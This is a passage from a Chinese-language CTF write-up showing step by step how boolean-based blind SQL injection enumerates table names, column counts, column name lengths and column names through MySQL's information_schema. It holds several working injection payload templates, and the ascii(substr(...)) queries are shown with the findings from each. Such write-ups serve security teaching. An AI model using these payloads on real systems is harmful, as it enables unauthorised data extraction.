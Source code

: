 其中`$table_num`值从0开始，`$num`为阿拉伯数字，表示表的长度。

![image-20210722191603558](https://{{site.PicturesLinks_Domain}}/images/2021/07/22/20210722191603.png)

上图得知第一个表名长度为4，经手工测试发现另一个表名长度也为4。

4、接下来根据表名的长度值确定表名，构造语句为：

```mysql
1 and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit $num1,1),$num2,1))=$ascii_num
```

其中，`$num1`为第一个表名值，从0开始，0表示第一个表，`$num2`为待查询表名字符，由1开始递增，1表示查询表名第一个字符，`$ascii_num`为ASCII码。

![image-20210722191917150](https://{{site.PicturesLinks_Domain}}/images/2021/07/22/20210722191917.png)

上图查找后第一个表名为news，第二个表名为flag，此处查找借助脚本完成。

5、根据上述表名，在查询表中的字段数，构造语句：

```mysql
1 and (select count(column_name) from information_schema.columns where table_name='$table_name')=$num
```

其中`$table_name`为上述查找到的表名，`$num`为字段数，即枚举表中有多少字段，此处耗时不长，就两个表需要确认字段。

![image-20210722192749247](https://{{site.PicturesLinks_Domain}}/images/2021/07/22/20210722192749.png)

由上图得知news表有两个字段，而另一张flag表查找后发现就1个字段.

6、根据上述得到的相关字段数确定每一列长度，构造语句为：

```mysql
1 and length(substr((select column_name from information_schema.columns where table_name='$table_name' limit $​​num1,1),1))=$num2
```

其中`$table_name`为待确定的表，`$num1`为待确定的第几列字段，从0开始，`$num2`为待确定的该列字段的长度值。

![image-20210722193314569](https://{{site.PicturesLinks_Domain}}/images/2021/07/22/20210722193314.png)

由上图得知flag表第一个字段长度为4，另一张news表经测试发现第一个字段长度为2，第二个字段长度为4。

7、根据字段长度确定字段名，构造语句为：

```mysql
1 and ascii(substr((select column_name from information_schema.columns where table_name='$table_name' limit $num1,1),$num2,1))=$ascii_num
```

其中`$table_name`为待确定字段值的表名，`$num1`为待确定的第几列字段，从0开始，0表示第一个字段，`$num2`表示该列字段的第几个数值，从1递增，1表示第一个，此处排查很耗费时间，可以借助二分法查找。

![image-20210722193930032](https://{{site.PicturesLinks_Domain}}/images/2021/07/22/20210722193930.png)

由上图得知flag表的第一个字段的第一个值ASCII码值为102，即f，查完后该字段值为flag；另一个表名news的第一个字段名为id，第二个字段名为data。此处为查找方便故使用脚本解决：

![image-20210722201317275](https://{{site.PicturesLinks_Domain}}/images/2021/07/22/20210722201317.png)
